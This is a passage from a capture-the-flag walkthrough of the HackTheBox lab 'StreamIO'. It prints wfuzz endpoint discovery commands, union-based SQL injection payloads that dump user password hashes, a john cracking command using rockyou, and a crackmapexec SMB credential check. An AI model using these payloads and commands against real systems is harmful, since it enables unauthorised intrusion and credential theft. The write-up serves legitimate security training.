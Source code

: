 
## 4. Web Content Discovery & SQL Injection

### 4.1 Fuzzing on `streamio.htb`

Used `wfuzz` to identify hidden PHP endpoints:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://streamio.htb/FUZZ.php
```

❌ No significant results.

### 4.2 Switched to `watch.streamio.htb`

Ran same fuzzing strategy on second domain:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://watch.streamio.htb/FUZZ.php
```

✅ Found endpoint `/search.php`

### 4.3 SQLi Discovery

Confirmed union-based SQL injection:

```sql
' union select 1,2,3,4,5,6-- -
```

Enumerated database:

```sql
' union select 1,concat(username,':',password),3,4,5,6 from users-- -
```

Collected MD5 hashes.

Cracked using `john`:

```bash
john --format=Raw-MD5 -w:/usr/share/wordlists/rockyou.txt hashes
```

✅ Several plaintext credentials recovered.

---

## 5. Credential Validation and LFI

### 5.1 Validating Credentials via SMB

Used `crackmapexec` with the cracked credentials:

```bash
crackmapexec smb 10.10.11.158 -u users -p passwords --no-bruteforce
```
